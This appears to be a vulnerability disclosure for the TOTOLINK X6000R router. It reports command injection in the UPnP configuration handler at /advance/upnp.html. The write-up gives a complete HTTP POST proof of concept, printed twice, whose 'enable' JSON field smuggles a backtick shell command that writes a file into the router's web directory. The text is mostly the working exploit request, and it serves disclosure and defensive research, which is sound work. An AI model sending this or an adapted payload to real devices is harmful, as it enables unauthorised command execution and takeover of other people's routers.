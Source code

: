 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/upnp.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/dda276a6-99ee-4fa3-a31a-01d2f805e880)


Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```
![image](https://github.com/user-attachments/assets/43b69ca3-0b3d-41e9-8514-521296663dcc)

![image](https://github.com/user-attachments/assets/1dabdeb8-53c2-4de2-9578-d821c900feb5)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```
![image](https://github.com/user-attachments/assets/43b69ca3-0b3d-41e9-8514-521296663dcc)

![image](https://github.com/user-attachments/assets/1dabdeb8-53c2-4de2-9578-d821c900feb5)
